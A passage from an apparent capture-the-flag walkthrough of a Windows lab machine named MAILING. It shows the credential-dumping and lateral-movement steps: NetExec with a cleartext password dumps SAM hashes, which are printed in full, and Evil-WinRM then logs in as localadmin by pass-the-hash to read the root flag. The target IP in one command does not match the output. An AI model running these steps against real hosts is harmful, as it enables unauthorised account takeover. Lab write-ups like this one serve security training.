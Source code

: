 ```shell
Logon hours allowed          All

Local Group Memberships      *Administradores      *Remote Management Use
                             *Usuarios             *Usuarios de escritori
Global Group memberships     *Ninguno
The command completed successfully.
```

It worked!

### Dumping hashes using NetExec and Pass-the-Hash with Evil-WinRM to get access as localadmin
Now we can use the user maya to dump all hashes using NetExec:

```shell
netexec smb 10.129.134.116 -u maya -p "m4y4ngs4ri" --sam
```

```shell
SMB         10.129.134.249  445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False) (SMBv1:False)                                                                                                                              
SMB         10.129.134.249  445    MAILING          [+] MAILING\maya:m4y4ngs4ri (Pwn3d!)
SMB         10.129.134.249  445    MAILING          [*] Dumping SAM hashes
SMB         10.129.134.249  445    MAILING          Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.134.249  445    MAILING          Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.134.249  445    MAILING          DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.134.249  445    MAILING          WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e349e2966c623fcb0a254e866a9a7e4c:::                                                                                                                                             
SMB         10.129.134.249  445    MAILING          localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::
SMB         10.129.134.249  445    MAILING          maya:1002:aad3b435b51404eeaad3b435b51404ee:af760798079bf7a3d80253126d3d28af:::
SMB         10.129.134.249  445    MAILING          [+] Added 6 SAM hashes to the database
```

After dumping the hashes, we can use the localadmin hash to Pass-the-Hash with Evil-WinRM and get access as localadmin:

```shell
evil-winrm -i 10.129.134.249 -u localadmin -H 9aa582783780d1546d62f2d102daefae
```

### Root Flag
Now we can get the root.txt flag:

```shell
type C:\Users\localadmin\Desktop\root.txt
```

